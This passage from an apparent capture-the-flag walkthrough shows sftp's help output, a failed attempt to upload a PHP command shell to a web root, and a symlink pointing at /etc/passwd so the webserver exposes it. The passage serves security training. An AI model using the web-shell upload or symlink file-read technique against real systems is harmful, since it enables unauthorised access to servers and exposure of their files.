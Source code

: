     put [-afPpRr] local [remote]       Upload file
    pwd                                Display remote working directory
    quit                               Quit sftp
    rename oldpath newpath             Rename remote file
    rm path                            Delete remote file
    rmdir path                         Remove remote directory
    symlink oldpath newpath            Symlink remote file
    version                            Show SFTP version
    !command                           Execute 'command' in local shell
    !                                  Escape to local shell
    ?                                  Synonym for help
    

#### Shell Upload - Fail

I can go for a simple php shell upload:

    
    
    sftp> put /opt/shells/php/cmd.php 
    Uploading /opt/shells/php/cmd.php to /public_html/cmd.php
    /opt/shells/php/cmd.php 
    
    sftp> ls
    cmd.php   index.html
    

It seems to work. But the site doesn’t load it:

![1559681697565](https://0xdfimages.gitlab.io/img/1559681697565.png)

In fact, if I use `rename` to move `index.html`, I can see the dir listing,
but it doesn’t show `cmd.php` either:

![1559681785589](https://0xdfimages.gitlab.io/img/1559681785589.png)

## Admin Panel Access

### SFTP Symlinks

There’s two commands in the SFTP help that jump out: `ln [-s] oldpath newpath`
and `symlink oldpath newpath`. These commands are actually the same. I wonder
if I can make links to paths outside my current visibility. First create a
link for `/etc/password`:

    
    
    sftp> symlink /etc/passwd passwd
    sftp> ls
    cmd.php   old.html  passwd  
    

It shows in the dirlist through the webserver:

![1559682044710](https://0xdfimages.gitlab.io/img/1559682044710.png)

And I can load it (at least some version of it):
